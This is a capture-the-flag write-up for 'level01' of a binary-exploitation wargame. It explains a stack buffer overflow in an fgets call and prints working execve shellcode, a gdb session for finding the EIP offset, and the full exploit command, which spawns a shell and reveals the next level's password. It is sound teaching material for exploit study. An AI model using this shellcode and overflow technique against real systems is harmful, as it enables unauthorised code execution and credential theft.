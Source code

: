 ## LEVEL 01
---
### For a better understanding of the levels and the solutions, I recommend you to read the [disassemble file](./asm/level01.asm) and the [source file](./src/level01.c). This README only contains the most important parts to solve the level.
---
### Security
```
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      FILE
Partial RELRO   No canary found   NX disabled   No PIE          No RPATH   No RUNPATH   /home/users/level01/level01
```

For this level, the NX security is disabled, so we can use the buffer overflow attack again. That's advantageous because we're going to need it.
---

We're going to apply the same automation techniques as we did in Rainfall. First, we need to find a vulnerability within the code. If we examine the `main` function, we find two interesting lines:
```c
char buffer[0x40];
[...]
fgets(buffer, 0x64, stdin);
```

The `fgets` function reads 100 characters from the standard input and stores them in the `buffer` variable. The problem is that the `buffer` variable is only 64 bytes long, so we can write 36 bytes after the end of the buffer. This is a vulnerability that we can exploit and it's really similar to what we used in rainfall.

The second thing I noticed is that the program never calls `system` so we have to use a Shellcode again. I will use a Shellcode inside the environment variable `SHELLCODE` to make it easier to use. I will also use the same Shellcode as in rainfall.

```shell
export SHELLCODE=$(python -c 'print "\x90"*64 + "\x6a\x0b\x58\x99\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\xcd\x80"')
```

Now we just need to find the EIP offset. I will also use the same technique as in rainfall.

```shell
(gdb) x/a $ebp+4
0xffffd70c:	0xf7e45513
(gdb) x/a $esp+0x1c
0xffffd6bc:	0x0
```

The EIP offset is `0xffffd70c - 0xffffd6bc = 0x50 <==> 80`. Now we can write the exploit.

The first thing I need to know is the address of the environment variable `SHELLCODE`.

```shell
(gdb) x/s *((char **)environ)
0xffffd889:	 "SHELLCODE=\220\220\220[...]
```

I will add 0x20 to the address to avoid conflicts with the environment variable name and to ensure that we are on the NOP offset. The final address will be `0xffffd8a9`.

Now we can exploit the binary. Unlike Rainfall, I won't put the Python result in a temporary file; instead, I will directly pipe it to the binary. It will be easier for me to use.

```shell
$ (python -c 'print "dat_wil"'; python -c 'print "\x90"*80 + "\xa9\xd8\xff\xff"'; cat -) | ./level01
********* ADMIN LOGIN PROMPT *********
Enter Username: verifying username....

Enter Password:
nope, incorrect password...

whoami
level02
cat /home/users/level02/.pass
PwBLgNa8p8MTKW57S7zxVAQCxnCpV8JqTTs9XEBv
```